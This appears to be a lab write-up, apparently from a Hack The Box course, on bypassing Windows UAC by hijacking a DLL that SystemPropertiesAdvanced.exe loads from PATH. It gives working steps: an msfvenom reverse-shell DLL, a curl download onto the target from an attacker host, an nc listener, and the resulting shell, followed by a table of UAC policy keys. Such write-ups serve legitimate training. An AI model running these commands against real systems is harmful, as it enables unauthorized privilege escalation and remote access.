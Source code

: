 

UAC disables elevation for admin users by assigning a standard user token, we can defeat this by looking up UAC bypasses, checking current windows build etc...
in this lab we use a binary that doesnt require uac prompt.
There are many trusted binaries that Windows will allow to auto-elevate without the need for a UAC consent prompt.

For example "`SystemPropertiesAdvanced`.exe
this binary tries to load a non existent dll from PATH variable, we can insert a binary anywhere in path where we have access, and the binary will load it. (reverse shell)
When attempting to locate a DLL, Windows will use the following search order.

1. The directory from which the application loaded.
2. The system directory `C:\Windows\System32` for 64-bit systems.
3. The 16-bit system directory `C:\Windows\System` (not supported on 64-bit systems)
4. The Windows directory.
5. Any directories that are listed in the PATH environment variable.
#### Confirming UAC is Enabled

There is no command-line version of the GUI consent prompt, so we will have to bypass UAC to execute commands with our privileged access token. First, let's confirm if UAC is enabled and, if so, at what level.
![](Pasted%20image%2020250319222529.png)
```cmd-session
C:\htb> REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v EnableLUA
```

`Checking UAC level`
```cmd-session
REG QUERY HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System\ /v ConsentPromptBehaviorAdmin

    ConsentPromptBehaviorAdmin    REG_DWORD    0x5
```
The value of `ConsentPromptBehaviorAdmin` is `0x5`, which means the highest UAC level of `Always notify` is enabled. There are fewer UAC bypasses at this highest level.

UAC bypasses leverage flaws or unintended functionality in different Windows builds. Let's examine the build of Windows we're looking to elevate on.
`enumerate build version`
```powershell-session
PS C:\htb> [environment]::OSVersion.Version

Major  Minor  Build  Revision
-----  -----  -----  --------
10     0      14393  0
```
This returns the build version 14393, which using [this](https://en.wikipedia.org/wiki/Windows_10_version_history) page we cross-reference to Windows release `1607`

The [UACME](https://github.com/hfiref0x/UACME) project maintains a list of UAC bypasses, including information on the affected Windows build number, the technique used, and if Microsoft has issued a security update to fix it.

`Reviewing path`
```powershell-session
PS C:\htb> cmd /c echo %PATH%
```

`Creating the malicious strsst.dll`
```shell-session
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.3 LPORT=8443 -f dll > srrstr.dll
```

`download on target`
```powershell-session
PS C:\htb>curl http://10.10.14.3:8080/srrstr.dll -O "C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll"

# start listener
nc -lvnp 8443

```

`terminate all rundll instances`
```cmd
 tasklist /svc | findstr "rundll32"
 
C:\htb> taskkill /PID 7044 /F

C:\htb> taskkill /PID 7044 /F

C:\htb> taskkill /PID 7044 /F
```

`run the program`
```cmd
C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe
```

```shell-session
nc -lvnp 8443

listening on [any] 8443 ...
connect to [10.10.14.3] from (UNKNOWN) [10.129.43.16] 50273
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
```

|Group Policy Setting|Registry Key|Default Setting|
|---|---|---|
|[User Account Control: Admin Approval Mode for the built-in Administrator account](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-admin-approval-mode-for-the-built-in-administrator-account)|FilterAdministratorToken|Disabled|
|[User Account Control: Allow UIAccess applications to prompt for elevation without using the secure desktop](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-allow-uiaccess-applications-to-prompt-for-elevation-without-using-the-secure-desktop)|EnableUIADesktopToggle|Disabled|
|[User Account Control: Behavior of the elevation prompt for administrators in Admin Approval Mode](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-behavior-of-the-elevation-prompt-for-administrators-in-admin-approval-mode)|ConsentPromptBehaviorAdmin|Prompt for consent for non-Windows binaries|
|[User Account Control: Behavior of the elevation prompt for standard users](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-behavior-of-the-elevation-prompt-for-standard-users)|ConsentPromptBehaviorUser|Prompt for credentials on the secure desktop|
|[User Account Control: Detect application installations and prompt for elevation](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-detect-application-installations-and-prompt-for-elevation)|EnableInstallerDetection|Enabled (default for home) Disabled (default for enterprise)|
|[User Account Control: Only elevate executables that are signed and validated](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-only-elevate-executables-that-are-signed-and-validated)|ValidateAdminCodeSignatures|Disabled|
|[User Account Control: Only elevate UIAccess applications that are installed in secure locations](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-only-elevate-uiaccess-applications-that-are-installed-in-secure-locations)|EnableSecureUIAPaths|Enabled|
|[User Account Control: Run all administrators in Admin Approval Mode](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-run-all-administrators-in-admin-approval-mode)|EnableLUA|Enabled|
|[User Account Control: Switch to the secure desktop when prompting for elevation](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-switch-to-the-secure-desktop-when-prompting-for-elevation)|PromptOnSecureDesktop|Enabled|
|[User Account Control: Virtualize file and registry write failures to per-user locations](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings#user-account-control-virtualize-file-and-registry-write-failures-to-per-user-locations)|EnableVirtualization|Enabled|

[Source](https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/user-account-control-group-policy-and-registry-key-settings)

=================================================================

---


---

